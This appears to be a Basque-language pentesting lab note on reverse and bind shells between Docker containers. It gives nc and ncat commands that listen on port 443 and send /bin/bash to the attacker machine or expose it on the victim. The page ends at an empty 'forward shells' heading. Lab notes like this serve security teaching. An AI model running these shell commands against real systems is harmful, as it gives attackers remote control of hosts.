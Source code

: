 ## Reverse shell
![Alt text](image.png)

Ubuntu makina bat martxan jarri. Makina hontetatik (biktima) gure kali makinara (atakantea) shell bat bidaliko dugu.

```bash
docker run -dit --name ubunturs --network  hacking-lab_pentesting-lab-network ubuntu:latest
```

Jarri kali makina entzuten
```bash
nc -nlvp 443
```

Bidali shell bat gure ordenagailura:
```bash
ncat -e /bin/bash hacking-lab-kali-rolling-1 443
```

## Bind shell
![Alt text](image-1.png)


Jarri biktima makina entzuten
```bash
ncat -nlvp 443 -e /bin/bash
```

Kali makinarekin konekatau

```bash
nc ubunturs 443
```

s
## Fordward shells
![Alt text](image-2.png)